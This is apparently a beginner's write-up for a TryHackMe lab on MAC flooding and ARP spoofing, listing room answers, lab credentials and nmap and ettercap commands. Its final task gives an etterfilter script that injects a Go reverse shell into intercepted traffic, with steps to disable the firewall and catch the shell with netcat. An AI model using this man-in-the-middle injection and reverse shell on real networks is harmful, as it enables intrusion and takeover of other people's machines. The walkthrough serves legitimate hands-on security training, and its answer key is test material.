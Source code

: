 # L2-MAC-Flooding-ARP-Spoofing
 <b> Tryhackme  L2 MAC Flooding &amp; ARP Spoofing writeup </b>
  
 <b> TASK 2 </b> <br>
  <b> Note The admin user is in the sudo group. I suggest using the root user to complete this room <br>
      sudo su (password : Layer2)</b><br>
  
  Q.1    Now, can you (re)gain access?(Yay/Nay).<br>
  Ans.   Yea <br>
  <b>TASK 3 </b><br>
  Q. 1 What is your IP address? <br>
  <b>  ip address show eth1 </b><br>
  Ans. 192.168.12.66 <br>
  Q. 2 What's the network's CIDR prefix? <br>
  Ans. /24  <br>
  Q. 4 How many other live hosts are there? <br>
  <b>  nmap -sn 192.168.12.66/24 </b> <br>
  Ans. 2 <br>
  Q. 5 What's the hostname of the first host (lowest IP address) you've found? <br>
  Ans. alice <br>
   <b>TASK 4 </b> <br>
  Q. 1 Can you see any traffic from those hosts? (Yay/Nay) <br>
  Ans. yea <br>
  Q. 2 Who keeps sending packets to eve? <br>
  Ans. bob <br>
  Q. 3 What type of packets are sent? <br>
  Ans. icmp <br>
    <b>hint</b> for Q 3 & 4 see fig <br>
    <img src="task4.png" alt="tcpdump.pcap"><br>
  Q. 4 What's the size of their data section? (bytes) <br>
  Ans. 666 <br>
   <b> TASK 5 </b><br>
  Q. 1 What kind of packets is Alice continuously sending to Bob?  <br>
  Ans. icmp <br>
  Q. 2 What's the size of their data section? (bytes) <br>
  Ans. 1337           (same as Q 3 & 4 in task 4)<br> 
  <b>Task 6 </b><br>
  Q.1 Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay) <br>
  Ans. nay <br>
  Q. 2 Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Na<br>
  Ans. yay <br>
   <b> TASk 7</b> <br>
    <b> Note : Use root user <br>
       sudo su   (password : Layer2) </b><br>
   Q. 1 Scan the network on eth1. Who's there? Enter their IP addresses in ascending order. <br>
   <b>nmap 192.168.12.0/24</b><br>
   Ans. 192.168.12.10, 192.168.12.20 <br>
    <img src="nmap_task7.png" alt="nmap 192.168.12.66/24"><br>
   Q. 2 Which machine has an open well-known port? <br>
   Ans. 192.168.12.20 <br>
   Q. 3 What is the port number? <br>
   Ans. 80 <br>
   Q. 4 Can you access the content behind the service from your current position? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 5 Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 6 Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay) <br>
   Ans. Yay <br>
     To launch arp attack<b> ettercap -T -i eth1 -M arp</b><br>
     ettercap -T -i eth1 -M arp > myarp.txt  (read carefully Q 7,89,11,17 Ans found in myarp.txt)<br>
   Q. 7 Who is using that service? <br>
   Ans. alice <br>
   Q. 8 What's the hostname the requests are sent to? <br>
   Ans www.server.bob <br>
   <img src="task7_Q8.png" alt=""><br>
   Q. 9 Which file is being requested? <br>
   Ans. test.txt <br>
   Q. 10 What text is in the file?<br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/test.txt</b><br>
   Ans ok <br>
    <img src="task7 _Q10.png"><br>
   Q. 11 Which credentials are being used for authentication? (username:password) <br>
   Ans. admin:s3cr3t_P4zz <br>
   Q. 12 Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning? <br>
   Ans. RE-ARPing the victims <br>
   Q. 13 Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay) <br>
   Ans. Yay <br>
   Q. 14 What is the user.txt flag? <br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/user.txt </b><br>
   Ans. THM{..........}  <br>
   Q. 15 You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server? <br>
   Ans. reverse shell <br>
   Q. 16 What commands are being executed? Answer in the order they are being executed.<br>
   Ans. whoami, pwd, ls <br>
   <img src="command.png"><br>
   Q.17 Which of the listed files do you want? <br>
   Ans. root.txt <br>
   <img src="last_q.png"><br>
   <b>TASK 8 </b> <br>
   Q. 1 What is the root.txt flag? <br>
   Ans.  THM{........} <br>  
    <b> Read carefully each and every line in Task 8 module L2 MAC Flooding & ARP Spoofing on tryhackme</b><br>
    <b>Follow steps to find root flag</b><br>
    hint: follow these steps on ssh machine not on your local machine<br>
     step 1. copy and save in a whoami.ecf file  <br><br>
     note: if this payload not work download whoami.ecf file from repo <a href="whoami.ecf">Download</a><br>
     <b> 
   if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
    </b><br>
    
 
 step 2. compile source code with etterfilter<br>
  <b>etterfilter whoami.ecf -o whoami.ef</b><br>
  step 3. Disable firewall <br>
    <b>sudo ufw disable  (password: Layer2)</b><br>
  step 4. open one another ssh session and start netcat listener<br>
  hint: use same port in source code and netcat listener<br>
  <b>nc -nvlp 6666 & </b><br>
  step 5. Run ettercap <br>
  <b>sudo ettercap -T -i eth1 -M arp -F whoami.ef </b><br><br>
  A few seconds after executing this command, you should see  "Connection received on 192.168.12.20 " on netcat listerer<br>
  step 6. on netcat listener type "fg" to foreground listener<br>
  
  Enjoy revershell
  
  <img src="root_flag.png"><br>
  
      
      
      
      
      
      Thank you <br>
      this is my first writeup, if i made any mistake foregive me.
      if you have any questions connect with me on LinkedIn.(use tryhackme to get my LinkedIn Id).
      
      
      Ajeet Kumar
   
   
